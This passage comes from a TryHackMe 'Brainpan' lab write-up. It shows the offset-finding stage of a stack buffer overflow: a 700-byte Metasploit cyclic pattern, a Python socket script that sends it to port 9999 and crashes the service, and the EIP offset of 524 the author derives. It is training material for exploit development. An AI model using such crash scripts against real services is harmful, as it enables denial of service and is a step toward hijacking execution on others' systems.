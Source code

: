 ```highlight
┌─[daz@parrot]─[~/Documents/TryHackMe/Brainpan]
└──╼ $msf-pattern_create -l 700
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4A
f5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9Ak0Ak1Ak2Ak3Ak4Ak5Ak6Ak7Ak8Ak9Al
0Al1Al2Al3Al4Al5Al6Al7Al8Al9Am0Am1Am2Am3Am4Am5Am6Am7Am8Am9An0An1An2An3An4An5An6An7An8An9Ao0Ao1Ao2Ao3Ao4Ao5Ao6Ao7Ao8Ao9Ap0Ap1Ap2Ap3Ap4Ap5Ap6Ap7Ap8Ap9Aq0Aq1Aq2Aq3Aq4Aq5
Aq6Aq7Aq8Aq9Ar0Ar1Ar2Ar3Ar4Ar5Ar6Ar7Ar8Ar9As0As1As2As3As4As5As6As7As8As9At0At1At2At3At4At5At6At7At8At9Au0Au1Au2Au3Au4Au5Au6Au7Au8Au9Av0Av1Av2Av3Av4Av5Av6Av7Av8Av9Aw0A
w1Aw2Aw3Aw4Aw5Aw6Aw7Aw8Aw9Ax0Ax1Ax2A
```

-l is to set the length of the string, the fuzzing script determined the application crashed at 700 bytes so I set the pattern to 700.

I've updated the script with the string and also removed the while true as we are no longer fuzzing.

{% highlight python %}
#!/usr/bin/python3

import sys, socket
from time import sleep

buffer = "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1
Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9Ak0Ak1Ak2Ak3Ak4Ak5Ak6A
k7Ak8Ak9Al0Al1Al2Al3Al4Al5Al6Al7Al8Al9Am0Am1Am2Am3Am4Am5Am6Am7Am8Am9An0An1An2An3An4An5An6An7An8An9Ao0Ao1Ao2Ao3Ao4Ao5Ao6Ao7Ao8Ao9Ap0Ap1Ap2Ap3Ap4Ap5Ap6Ap7Ap8Ap9Aq0Aq1Aq
2Aq3Aq4Aq5Aq6Aq7Aq8Aq9Ar0Ar1Ar2Ar3Ar4Ar5Ar6Ar7Ar8Ar9As0As1As2As3As4As5As6As7As8As9At0At1At2At3At4At5At6At7At8At9Au0Au1Au2Au3Au4Au5Au6Au7Au8Au9Av0Av1Av2Av3Av4Av5Av6Av7
Av8Av9Aw0Aw1Aw2Aw3Aw4Aw5Aw6Aw7Aw8Aw9Ax0Ax1Ax2A"

try:
    s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
    s.connect(("brainpan",9999))
    s.recv(1024)
    s.send(buffer + "\r\n")
    s.close()

except:
   print("Application crashed")
   sys.exit()
{% endhighlight %}

Running the script again crashes the application as excepted.

![EIP-Crash](/assets/images/brainpan/EIP-Crash.png)

EIP now has a value of 35724134. I use msf pattern offset to determine the EIP offset.

```highlight
┌─[daz@parrot]─[~/Documents/TryHackMe/Brainpan]
└──╼ $msf-pattern_offset -l 700 -q 35724134
[*] Exact match at offset 524
```
